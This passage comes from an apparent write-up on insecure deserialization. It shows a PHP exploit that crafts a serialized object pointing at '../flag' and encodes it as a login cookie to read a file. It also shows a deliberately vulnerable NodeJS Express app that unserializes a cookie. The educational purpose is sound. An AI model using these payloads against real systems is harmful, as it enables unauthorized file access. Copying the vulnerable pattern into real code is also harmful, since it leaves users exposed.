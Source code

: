 ```php
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    public function read_log() {
        return file_get_contents($this->log_file);
    }
}

    $object = new access_log("../flag");
    // ../flag is the location given in the hint!

    $serializedObject = serialize($object);

    echo $serializedObject;
?>
```

This is the returned string: ```O:10:"access_log":1:{s:20:"access_loglog_file";s:7:"../flag";}```

We can encode it in base64 and url encode because of this operation on the cookie string: ```$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));``` by modifying ```$serializedObject = serialize($object);``` with ```$serializedObject = urlencode(base64_encode(serialize($object)));``` in our php code.

Now, we can send this cookie to the web application at the web URL ```/authentication.php```.



# NodeJS insecure deserialization

A cookie value that comes from the request was passed into the unserialize() function provided by the module.

Example code:
```js
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     res.send("Hello " + escape(obj.username));
   }
 } else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello World");
});
app.listen(3000);
```
